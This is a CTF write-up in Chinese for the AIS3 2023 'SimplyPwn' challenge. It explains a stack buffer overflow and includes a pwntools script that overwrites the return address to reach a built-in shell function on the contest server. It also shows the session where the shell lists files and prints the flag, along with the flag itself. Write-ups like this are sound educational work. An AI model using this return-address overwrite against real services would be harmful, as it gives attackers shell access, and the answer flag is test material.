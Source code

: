 # SimplyPwn
## 題目

![image](https://user-images.githubusercontent.com/57281249/239932495-6a0bafff-9626-4400-80ff-eebe9e2ac101.png)

## 解題
1. IDA 打開
2. 人真好有給 shell code
![image](https://user-images.githubusercontent.com/57281249/239933559-f2a98b42-9d2a-4daa-8d46-ea66fac90097.png)
3. array 最長 64 bytes 然後 read 256 bytes 一臉就會 stack overflow.
![image](https://user-images.githubusercontent.com/57281249/239943925-86da7a51-43c9-4d25-abb2-970d7d4fceba.png)
4. 找 shell code 的位置
![image](https://user-images.githubusercontent.com/57281249/239944562-8c292e6c-fa5d-46c9-95dd-a81dbea6c5e5.png)
5. exploit
```python
import pwn
import re
import sys

r = pwn.remote('chals1.ais3.org', 11111)

print(r.recvrepeat(timeout=1).decode())
r.send(b'x'*(8*10-1) + int('4017A9', 16).to_bytes(3, 'little'))
r.recvrepeat(timeout=1)

while True:
    print(r.recvrepeat(timeout=1).decode(), end='')
    print('> ', end='')
    r.send(input().encode())
#    r.send(sys.stdin.buffer.read())
```

```
chummy@hitcon:~/ais3preexam2023$ python3 simpwnexp.py
[+] Opening connection to chals1.ais3.org on port 11111: Done
Show me your name:
> ls
FLAG
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
runtime
sbin
srv
sys
tmp
usr
var
> cat FLAG
AIS3{5imP1e_Pwn_4_beGinn3rs!}
> exit
>
>
[*] Closed connection to chals1.ais3.org port 11111
Traceback (most recent call last):
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 65, in send_raw
    self.sock.sendall(data)
BrokenPipeError: [Errno 32] Broken pipe

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/chummy/ais3preexam2023/simpwnexp.py", line 14, in <module>
    r.send(input().encode())
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 778, in send
    self.send_raw(data)
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 70, in send_raw
    raise EOFError
EOFError
```

## Flag
`AIS3{5imP1e_Pwn_4_beGinn3rs!}`